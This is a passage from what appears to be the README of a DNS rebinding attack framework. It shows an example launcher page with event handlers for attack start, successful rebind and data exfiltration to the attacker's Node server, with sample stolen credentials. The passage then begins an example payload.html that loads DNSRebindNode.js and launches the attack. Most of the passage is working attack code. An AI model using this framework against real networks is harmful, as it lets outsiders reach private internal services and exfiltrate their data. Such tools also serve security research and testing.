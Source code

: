 ```html
        //    that an attack has been launched (or at least, it's payload was
        //    delivered) against an IP address.
        //  - rebind: the DNS rebind was successful, this node should now be
        //    communicating with the target service.
        //  - exfiltrate: send JSON data back to your Node server.js and save
        //    it inside the data/ folder.
        // Additionally, the DNSRebindNode.destroy() static method
        // will trigger the 'destory' event and cause DNSRebindAttack to
        // remove the iframe.

        rebind.nodes.on('begin', (ip) => {
            // the DNSRebindNode has been loaded, attacking ip
        })

        rebind.nodes.on('rebind', (ip) => {
            // the rebind was successful
            console.log('node rebind', ip)
        })

        rebind.nodes.on('exfiltrate', (ip, data) => {
            // JSON data was exfiltrated and saved to the data/
            // folder on the remote machine hosting server.js
            
            console.log('node exfiltrate', ip, data)
            
            // data = {
            //     "username": "crashOverride",
            //     "password": "hacktheplanet!",
            // }
        })
    }
    </script>
</body>
</html>
```

### `payload.html`

Here is an example HTML payload file. You can find the complete document in [`examples/payload.html`](examples/payload.html).

```html
<!DOCTYPE html>
<html>
<head>
    <title>Example Payload</title>
</head>
<body>
<!--
Load the DNSRebindNode. This static class is used to launch the rebind
attack and communicate with the DNSRebindAttack instance in example-launcher.html
-->
<script type="text/javascript" src="/share/js/DNSRebindNode.js"></script>
<script type="text/javascript">

    attack()
    .then(() => {},
          err => {
              // there was an error at some point during the attack
              console.error(err)
              DNSRebindNode.emit('fatal', err.message)
          }
    ) // remove this iframe by calling destroy()
    .then(() => DNSRebindNode.destroy())
```